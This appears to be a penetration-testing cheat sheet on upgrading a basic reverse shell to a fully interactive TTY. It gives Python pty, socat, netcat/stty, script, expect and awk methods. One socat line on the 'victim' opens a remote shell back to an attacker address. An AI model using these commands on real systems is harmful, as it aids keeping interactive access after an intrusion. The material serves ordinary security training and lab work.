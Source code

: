 Upgrading from a 'dumb' shell to a fully interactive shell to prevent losing a shell from bad commands hanging or killing the connection with 'Ctrl-C'.

Other drawbacks
* Incorrect SIGINT handling
* Certain commands don't work (su)
* **No tab complete**
* no STDERR

# Three Methods
Reference: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
## Python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## socat
```
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## netcat
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# No Python?
## Script
```
SHELL=/bin/bash script -q /dev/null
```

## expect
```
expect -c 'spawn bash; interact'
```

## awk
```
awk 'BEGIN {system("/bin/bash")}'
```
